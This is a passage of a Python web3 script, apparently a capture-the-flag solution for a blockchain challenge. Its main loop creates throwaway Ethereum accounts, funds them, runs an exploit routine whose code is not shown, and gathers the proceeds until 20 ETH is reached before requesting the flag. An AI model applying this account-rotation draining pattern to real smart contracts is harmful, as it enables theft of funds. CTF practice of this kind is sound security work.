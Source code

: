 ```python
                'to': aggregator_address,
                'value': value_to_transfer,
                'gas': gas_limit,
                'nonce': w3.eth.get_transaction_count(acct),
                'chainId': w3.eth.chain_id,
                'maxPriorityFeePerGas': w3.to_wei(2, 'gwei'),
                'maxFeePerGas': max_fee
            }
            signed_tx4 = w3.eth.account.sign_transaction(tx4, private_key=private_key)
            tx_hash = w3.eth.send_raw_transaction(signed_tx4.raw_transaction)
            receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
            print(f"    [*] Transfer confirmed in block {receipt.blockNumber}")
        else:
            print("    [*] Insufficient balance for transfer.")
    
    # Main loop: create a new ephemeral account, fund it from aggregator, run exploit, and collect funds
    iteration = 0
    while True:
        iteration += 1
        print(f"\n=== Iteration {iteration} ===")
        # Create a new ephemeral account
        ephemeral_account = w3.eth.account.create()
        ephemeral_address = w3.to_checksum_address(ephemeral_account.address)
        ephemeral_private = ephemeral_account.key.hex()
        print(f"[+] Created ephemeral account: {ephemeral_address}")
        
        # Fund ephemeral account from aggregator (need ~0.05 ETH for gas)
        current_agg_balance = w3.eth.get_balance(aggregator_address)
        if current_agg_balance < w3.to_wei(0.05, 'ether'):
            print("[-] Aggregator doesn't have enough funds to fund ephemeral accounts. Exiting.")
            break
        
        fund_amount = w3.to_wei(0.05, 'ether')
        tx_fund = {
            'from': aggregator_address,
            'to': ephemeral_address,
            'value': fund_amount,
            'gas': 21000,
            'nonce': w3.eth.get_transaction_count(aggregator_address),
            'chainId': w3.eth.chain_id,
            'maxPriorityFeePerGas': w3.to_wei(2, 'gwei'),
            'maxFeePerGas': w3.to_wei(12, 'gwei')
        }
        signed_fund = w3.eth.account.sign_transaction(tx_fund, private_key=aggregator_private_key)
        tx_hash = w3.eth.send_raw_transaction(signed_fund.raw_transaction)
        w3.eth.wait_for_transaction_receipt(tx_hash)
        print(f"[+] Funded ephemeral account {ephemeral_address} with 0.05 ETH")
        
        # Run the exploit cycle using the ephemeral account
        run_exploit_for_ephemeral(ephemeral_address, ephemeral_private)
        
        # Check aggregator balance
        agg_balance = w3.eth.get_balance(aggregator_address)
        agg_balance_eth = w3.from_wei(agg_balance, 'ether')
        print(f"[+] Aggregator ({aggregator_address}) balance: {agg_balance_eth} ETH")
        if agg_balance_eth >= TARGET_BALANCE_ETH:
            print("[*] Target achieved! Aggregator balance is at least 20 ETH.")
            break
        time.sleep(2)
    
    # Finally, request the flag from the control service (option 3)
    print("[*] Requesting flag (option 3)...")
```